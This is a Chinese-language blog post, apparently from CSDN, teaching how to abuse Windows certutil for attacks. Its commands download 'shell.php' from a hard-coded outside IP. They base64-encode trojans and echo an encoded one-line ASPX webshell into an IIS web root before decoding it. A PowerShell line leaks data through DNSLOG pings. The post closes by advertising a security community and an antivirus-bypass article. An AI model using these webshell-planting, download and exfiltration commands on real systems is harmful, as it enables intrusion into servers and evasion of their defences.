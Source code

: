 certutil
--------

certutil也是windows下一款下载文件的工具，自从WindowsServer 2003就自带。但是在Server 2003使用会有问题。也就是说，以下命令是在Win7及其以后的机器使用。

### 远程下载

```
certutil -urlcache -split -f http://114.118.80.138/shell.php  #下载文件到当前目录下       
certutil -urlcache -split -f http://114.118.80.138/shell.php  c:/users/xie/desktop/shell.php        #下载文件到指定目录下
```


![](https://img-blog.csdnimg.cn/20190822164138129.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 文件base64编码解码

```
将a.txt文件base64编码为b.txt      
certutil -encode a.txt b.txt       
将c.txt文件base64解码为c.txt      
certutil -decode b.txt c.txt
```


所以可以将木马base64编码后再解码。这里的木马可以是exe木马或者是webshell等任何文件均可。

![](https://img-blog.csdnimg.cn/20210324142154581.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后通过echo写进去，再利用certutil进行base64解码

```
echo PCVAUGFnZSBMYW5ndWFnZT0iSnNjcmlwdCIlPjwlZXZhbChSZXF1ZXN0Lkl0ZW1bImFudCJdLCJ1bnNhZmUiKTslPg== >> C:\inetpub\wwwroot\aspnet_client\1.aspx       
certutil -decode C:\inetpub\wwwroot\aspnet_client\1.aspx C:\inetpub\wwwroot\aspnet_client\2.aspx
```


![](https://img-blog.csdnimg.cn/20210323003642361.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

如果碰到文件太大，不能一次性写进去的话，需要将base64编码后的数据分段写进去。再将所有base64分段写进去后，如何判断文件的完整性，可以通过如下命令判断文件的大小：

```
#如果能回显      
$a=(Get-ChildItem -Path 1.txt).Length;echo $a;       
#如果不能回显      
$a=(Get-ChildItem -Path xx.txt).Length;ping aa.$a.DNSLOG地址;
```


![](https://img-blog.csdnimg.cn/20210324232539870.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 ![](https://img-blog.csdnimg.cn/2021032423250868.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

 相关文章：[【BypassAV】全程绕过各种拦截之从前端到后端到域控](https://mp.weixin.qq.com/s/lfC24l40JuA2Hi-SAYEprg "【BypassAV】全程绕过各种拦截之从前端到后端到域控")